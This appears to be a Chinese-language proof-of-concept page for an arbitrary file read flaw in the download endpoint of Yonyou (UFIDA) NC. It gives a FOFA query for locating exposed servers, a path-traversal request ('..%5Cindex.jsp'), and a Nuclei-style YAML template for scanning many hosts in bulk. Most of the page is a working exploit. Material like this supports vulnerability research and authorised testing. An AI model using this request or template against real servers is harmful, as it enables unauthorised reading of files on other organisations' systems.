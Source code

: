 
## 用友NC的download文件存在任意文件读取漏洞


## fofa
```
app="用友-UFIDA-NC"
```

## poc
```
/portal/pt/xml/file/download?pageId=login&filename=..%5Cindex.jsp
```
![image](../../images/43853ad7-9323-4874-956c-25b5de054184.png)

## yaml 批量检测
```
id: yonyouNC_download_fileread
info:
  name: 用友NC_download文件读取
  author: mhb17
  severity: high
  description: description
  reference:
    - https://
  tags: fileread
requests:
  - raw:
      - |+
        GET /portal/pt/xml/file/download?pageId=login&filename=..%5Cindex.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
        Connection: close

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - '200'
      - type: word
        part: body
        words:
          - "response.addHeader"

```
